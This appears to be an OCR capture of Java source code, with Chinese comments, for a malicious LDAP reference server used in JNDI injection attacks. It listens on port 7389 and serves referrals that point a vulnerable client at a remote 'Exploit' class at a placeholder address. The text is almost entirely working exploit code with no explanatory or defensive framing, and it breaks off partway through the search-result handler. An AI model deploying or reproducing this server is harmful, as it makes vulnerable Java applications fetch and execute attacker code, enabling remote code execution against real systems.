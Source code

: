     import javax.net.ServerSocketFactory;
    import javax.net.SocketFactory;
    import javax.net.ssl.SSLSocketFactory;
    import javax.swing.text.html.parser.Entity;
    import java.net.InetAddress;
    import java.net.MalformedURLException;
    import java.net.URL;
    
    /**
    * LDAP 服务端
    */
    public class LDAPRefServer {
        public static final String LDAP_BASE = "dc=example, dc=com";
    
        public static final String EXPLOIT_CLASS_URL = "http://192.168.xxx.xxx/#Exploit";   // #Exploit 代替 Exploit.class
    
        public static void main(String[] args) {
            int port = 7389;    // ldap 默认端口 389
            try {
                InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
                config.setListenerConfigs(new InMemoryListenerConfig(
                        "listen",
                        InetAddress.getByName("0.0.0.0"),
                        port,
                        ServerSocketFactory.getDefault(),
                        SocketFactory.getDefault(),
                        (SSLSocketFactory) SSLSocketFactory.getDefault()
                ));
    
                /* 指定 EXPLOIT_CLASS_URL， OperationInterceptor 实现 InMemoryOperationInterceptor 抽象类 */
                config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(EXPLOIT_CLASS_URL)) );
    
                config.setSchema(null);
                config.setEnforceAttributeSyntaxCompliance(false);
                config.setEnforceSingleStructuralObjectClass(false);
                InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
    
                System.out.println("Listening on 0.0.0.0: " + port);
                ds.startListening();
            }catch (Exception e){
    
            }
        }
    
        /**
        * OperationInterceptor 实现 InMemoryOperationInterceptor 抽象类
        */
        private static class OperationInterceptor extends InMemoryOperationInterceptor {
            private URL codebase;
    
            private OperationInterceptor(URL url) {
                this.codebase = url;
            }
    
            @Override
            public void processSearchResult(InMemoryInterceptedSearchResult result) {
                String base = result.getRequest().getBaseDN();
                Entry e = new Entry(base);
                try {
                    sendResult(result, base, e);
                }catch (Exception ex){
    